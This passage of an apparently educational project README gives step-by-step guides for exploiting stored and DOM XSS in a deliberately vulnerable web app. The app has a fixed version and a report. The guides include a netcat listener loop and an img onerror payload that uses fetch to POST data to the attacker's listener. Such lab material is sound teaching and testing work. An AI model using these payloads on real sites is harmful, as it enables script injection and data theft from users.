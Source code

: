     {
        "username": "<username>",
        "password": "<password>"
    }
    ```
    Of course, substitute `<username>` and `<password>` with the desired credentials.
2. The server will send you an `access_token` as a cookie. This will be used for all subsequent requests. Usually, this cookie will be used automatically by the software used for sending the requests.

## Executing the exploits

This section includes step-by-step guides for executing each exploit. For a more detailed view of the exploits, the reasons they work and the relative fixes, refer to the PDF report.

<u>All exploits will be assumed to be run from the vulnerable version of the application</u>. The steps for the fixed version are the same, but be careful of the ports inside the links and the HTTP requests.

### CWE-79: Improper Neutralization of Input During Web Page Generation ("Cross-site Scripting", XSS) - Stored

1. Use `netcat` to create a service listening on port 4242 of the attacker's machine by executing this short shell script:
    ```shell
    while true; do nc -lvp 4242; echo '\n'; done
    ```
    **Note**: To stop this service from listening, you must close the terminal. CTRL+C does not work.
2. [Log-in as an existing user from the Web interface.](#logging-in-from-the-web-interface)
3. Click the "New page" button on the back-end to add a new page.
4. Insert a title and a header block with any content.
5. Insert a paragraph block, containing the following HTML tag for a simple alert to appear:
    ```html
    <img src="" onerror="alert('pwned')">
    ```
    or, alternatively, insert the following tag for the victim to send a request to the attacker's machine (`localhost` in this case) on port 4242 with `fetch`:
    ```html
    <img src="" onerror="fetch('http://localhost:4242',{method:'POST',body:'Some information'})">
    ```
6. Publish the article and view it.
7. For the `fetch` request, look at the attacker's shell running the `netcat` service.

### CWE-79: Improper Neutralization of Input During Web Page Generation ("Cross-site Scripting", XSS) - DOM

1. [Log-in as an existing user from the Web interface.](#logging-in-from-the-web-interface)
2. Click the "New page" button on the back-end to add a new page.
3. Insert a title and a header block with any content.
4. Insert a paragraph block, containing any of the HTML tags shown in the [CWE-79 (Stored)](#cwe-79-improper-neutralization-of-input-during-web-page-generation-cross-site-scripting-xss---stored) section.
5. Click the "Show Preview" button.
